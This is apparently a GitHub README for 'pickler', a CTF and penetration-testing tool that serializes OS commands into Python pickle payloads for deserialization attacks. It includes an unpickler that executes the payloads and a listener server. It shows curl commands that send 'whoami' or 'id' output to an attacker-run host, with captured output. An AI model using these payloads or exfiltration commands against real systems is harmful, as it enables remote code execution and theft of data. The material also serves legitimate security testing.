 
<p align="center">
<img width="726" alt="Screen Shot 2022-09-29 at 4 26 00 PM" src="https://user-images.githubusercontent.com/1679089/193159292-a7525d0c-956e-4fdc-ad57-d2b323461339.png">
</p>


<h4 align="center">Pickler and Unpickler of OS Commands</h4>
<p align="center">
  <a href="https://twitter.com/sho_luv">
    <img src="https://img.shields.io/badge/Twitter-%40sho_luv-blue.svg">
    <img src="https://img.shields.io/badge/python-3+-blue.svg">
  </a>
</p>

# pickler

I created this tool to create pickled os commands to be used during CTFs and Penetration Tests. 
```bash
./pickling.py 
              .      
,-. . ,-. . , |  ,-. 
| | | |   |/  |  |-' 
|-' ' `-' |\  `' `-' 
|         ' `        
'                    

usage: pickling.py [-h] os_command

This script is used to pickle system commands.

positional arguments:
  os_command  operating system (OS) commands to run i.e. "ls -al"

options:
  -h, --help  show this help message and exit

```
# Pickler Usage:

```bash
./pickling.py "ls -al"
gASVIQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAZscyAtYWyUhZRSlC4=
```
# Unpickler

```bash
./unpickling.py 
                      .      
. . ,-. ,-. . ,-. . , |  ,-. 
| | | | | | | |   |/  |  |-' 
`-' ' ' |-' ' `-' |\  `' `-' 
        |         ' `        
        '                    

usage: unpickling.py [-h] pickled_object

This script is used to execute pickled objects.

positional arguments:
  pickled_object  Pickled objects passed here will be executed on the system this script is ran on.

options:
  -h, --help      show this help message and exit

```


# Unpickler Usage:

Here you will notice when we unpickle the previously pickled "ls -al" command the program simply executes the pickled object. This is what allows the exploitation applications using pickles that accept untrusted data.

**Warning:** If you pickle a command like rm and then unpickle it you will be running the command rm on your system so be careful

```bash
./unpickling.py gASVIQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAZscyAtYWyUhZRSlC4=
total 56
drwxr-xr-x 2 root root 4096 Sep 29 14:57 .
drwxr-xr-x 4 root root 4096 Sep 29 15:33 ..
-rwxr--r-- 1 root root 4555 Sep 29 12:24 command.py
-rwxr--r-- 1 root root 1025 Sep 29 14:57 pickling.py
-rwxr--r-- 1 root root 4397 Sep 29 14:11 rev_shell.py
-rwxr--r-- 1 root root  995 Sep 29 13:30 unpickling.py

Unpickled Object Successfully

```

# Python Server

I added a python server that will display the POST/GET requests. This comes in handy when I don't want to set up a real web server, however I want to see the posts requests that come in. This can be used with pickled objects like so: "curl -X POST -d \"$(whoami)\" http://<REMOTE-LISTNER>:9000/funtimes"

```bash
python server.py -h

 ,--.     .  .             .---.
 |__/ . . |- |-. ,-. ,-.   \___  ,-. ,-. .  , ,-. ,-.
 |    | | |  | | | | | |       \ |-' |   | /  |-' |
 '    `-| `' ' ' `-' ' '   `---' `-' '   `'   `-' '
        |
      `-'

usage: server.py [-h] [-p port]

This is a python server that captures displays GET or POST data

options:
  -h, --help  show this help message and exit
  -p port     Set the port you want the server to listen on, Default port: 9000

```
# Usage python server.py

```
sudo python server.py -p 90
Starting httpd...
Pickle this: curl -X POST -d "$(id)" http://192.168.86.34:90/FunTimes
INFO:root:POST request,
Path: /FunTimes
Headers:
Host: 192.168.86.34:90
User-Agent: curl/7.85.0
Accept: */*
Content-Length: 4
Content-Type: application/x-www-form-urlencoded



Body:
root

192.168.86.34 - - [29/Sep/2022 22:09:07] "POST /FunTimes HTTP/1.1" 200 -

```


